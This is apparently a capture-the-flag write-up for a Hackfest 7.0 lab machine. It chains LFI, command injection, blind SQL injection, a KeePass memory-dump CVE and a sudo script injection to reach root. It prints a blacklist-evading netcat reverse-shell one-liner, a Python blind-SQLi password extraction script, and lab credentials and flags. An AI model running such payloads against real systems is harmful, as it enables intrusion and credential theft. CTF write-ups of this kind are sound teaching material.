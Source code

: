 I have contributed with Vulnerable Machine as a Penetration Testing challenge for Hackfest 7.0:\
<br>
</br> 
![img](images/image_2023-06-26_001633995.png)\
<br>
</br>
Let's first start with a scan to discover open ports:\
<br>
</br>
![img](images/image_2023-06-25_221255274.png)\
<br>
</br>
So let's go ahead and check the web app on port 80:\
<br>
</br>
![img](images/image_2023-06-25_221211894.png)\
<br>
</br>
We see that there is something with downloading ``report`` from the server.
Also we go ahead and check the source code:\
<br>
</br>
![img](images/image_2023-06-25_221230171.png)\
<br>
</br>
It says that every report has an id, so there must be parameters we could use. With ``report`` and ``id`` there are a few combinations we could take:\
<br>
</br> ``report=&id=``, ``report_id=``, ``id_report=``. So we need to take our time to test all these parameters. But finally we get that the one we'll be using is ``report=&id=``. And since the author talked about downloading reports it might be vulnerable to LFI, which it is! But you will not find this payload on any cheat sheet :p you will need to use some logic:\
<br>
</br>
![img](images/image_2023-06-25_221346724.png)\
<br>
</br>
And now we have our LFI.
Checking everything on the server we find nothing, no cleartext creds or ssh keys or any other thing. So let's check out the ``/etc/hosts`` file:\
<br>
</br>
![img](images/image_2023-06-25_221412943.png)\
<br>
</br>
We have another subdomain ``privatedomainn.locke.challenges.hackfest.tn`` let's check it out:\
<br>
</br>
![img](images/image_2023-06-25_221430709.png)\
<br>
</br>
We type any command and we find it is vulnerable to command injection:\
<br>
</br>
![img](images/image_2023-06-25_221442066.png)\
<br>
</br>
But when we type some other commands it tells us to get away, not very polite huh? :\
<br>
</br>
![img](images/image_2023-06-25_221518226.png)\
<br>
</br>
It must be blacklisted, so after a long time of trying to craft a payload we come up with this payload:\
<br>
</br>
``m=m;a=$'\046';s=$'\057';f=f;p=p;h=h;t=t;c=c;r${m}   ${s}tm${p}${s}f;mk${f}ifo   ${s}tm${p}${s}f;ca${t}  ${s}tm${p}${s}f|s${h}   -i  2>${a}1|n${c}    192.168.1.20    6666    >${s}tm${p}${s}f``
We store characters in variables and then call them, that ways we bypass the blacklist on words, and we use the hex representation of symbols which is interpreted by bash and transformed to the symbol itself, you can try it yourself :\
<br>
</br>D , and we get a callback from the server:\
<br>
</br> 
![img](images/image_2023-06-25_223318248.png)\
<br>
</br>
![img](images/image_2023-06-25_223328201.png)\
<br>
</br>
Enuermating the machine we find nothing useful for privilege escalation, but checking the port the server is listening on we find an interesting one:\
<br>
</br>
![img](images/image_2023-06-25_223347505.png)\
<br>
</br>
This is a filtered web application, so let's try and forward the port to our local machine so we can access it with ease (ps:\
<br>
</br> you can exploit the vulnerability without doing a port forwarding, doing it from inside the machine):\
<br>
</br>
![img](images/image_2023-06-25_225508169.png)\
<br>
</br>
![img](images/image_2023-06-25_225517751.png)\
<br>
</br>
And now we can access it from ``http://127.0.0.1:10003``:\
<br>
</br>
![img](images/image_2023-06-25_225533101.png)\
<br>
</br>
Now let's try to test a bunch of different things:\
<br>
</br>
![img](images/image_2023-06-25_225552903.png)\
<br>
</br>
![img](images/image_2023-06-25_225605097.png)\
<br>
</br>
Hmm interesting, it says that only the admin had the key, so we need to get whatever the admin has.
![img](images/image_2023-06-25_225747594.png)\
<br>
</br>
After a bunch of different payloads we figure that this is vulernable to Blind SQL Injection, so I wrote a small payload in python to exploit this vulnerability:\
<br>
</br>
``python
#!/usr/bin/python
import requests
def string(start,end):\
<br>
</br>
        str=''
        for i in range(start,end):
    \
    <br>
    </br>
                str+=chr(i)
        return str
def passwd():\
<br>
</br>
        url='http:
    \
    <br>
    </br>//127.0.0.1:
    \
    <br>
    </br>10003/?username='
        test=string(48,127)
        username="admin' union distinct select 1,2,0x{hex} order by 3 desc%23&password=1"
        flag=""
        for _ in range(32):
    \
    <br>
    </br>
                for i in test:
            \
            <br>
            </br>
                        data = username.format(hex=(flag+i).encode('hex'))
                        result=requests.post(url+data)
                        if "admin" not in result.text:
                    \
                    <br>
                    </br>
                                flag=flag+chr(ord(i)-1)
                                print flag
                                break
if __name__ == '__main__':\
<br>
</br>
        passwd()
``
And we run it:\
<br>
</br>
![img](images/image_2023-06-25_231535263.png)\
<br>
</br>
And YES! We get a hit back with the password.
And if we look closer at the description it said that it must be all lowercase, so let's try to ssh to the machine using this password and using the user ``cryptic``:\
<br>
</br>
![img](images/image_2023-06-25_231850578.png)\
<br>
</br>
And we get our first flag:\
<br>
</br> 
``Hackfest{70de14735437fb48ccc1c85604983b5c}``
Enumerating the machine, we find that this user has some hidden files under his home directory:\
<br>
</br>
![img](images/image_2023-06-25_232511782.png)\
<br>
</br>
I will not be going through this in detail, but this is the latest KeePass CVE released 3 weeks ago, yes we only bring you fresh meet ;) you can check out this repo and follow the steps to solve it:\
<br>
</br> ``https:\
<br>
</br>//github.com/vdohney/keepass-password-dumper``
We get the password for the keepass database is:\
<br>
</br> ``mallafouedyesahby``
We open it and we get the creds for iwd user (shoutout to my good friend iwd):\
<br>
</br>
![img](images/image_2023-06-25_233142947.png)\
<br>
</br>
The password is:\
<br>
</br> ``CryptoIs5omtime5UsEFuL``
So we go ahead and ssh into the machine using iwd user:\
<br>
</br>
![img](images/image_2023-06-25_233848208.png)\
<br>
</br>
And we get the second flag:\
<br>
</br> ``Hackfest{65f69907711675ddb07e832539333a6f}``
Enumerating the machine we find that iwd user can execute this command as sudo:\
<br>
</br>
![img](images/image_2023-06-25_233904294.png)\
<br>
</br>
And we can take a look at the source code for the bash script:\
<br>
</br>
![img](images/image_2023-06-25_234055785.png)\
<br>
</br>
This is basically an email checker that requires a specific format as specified in the script and it is vulnerable to command injection in the ``Request`` field, so let's exploit it:\
<br>
</br>
![img](images/image_2023-06-26_001223527.png)\
<br>
</br>
And yes we are ROOT!
And here is out final flag:\
<br>
</br> ``Hackfest{7a899205babaab8623b7cb007b843115}``
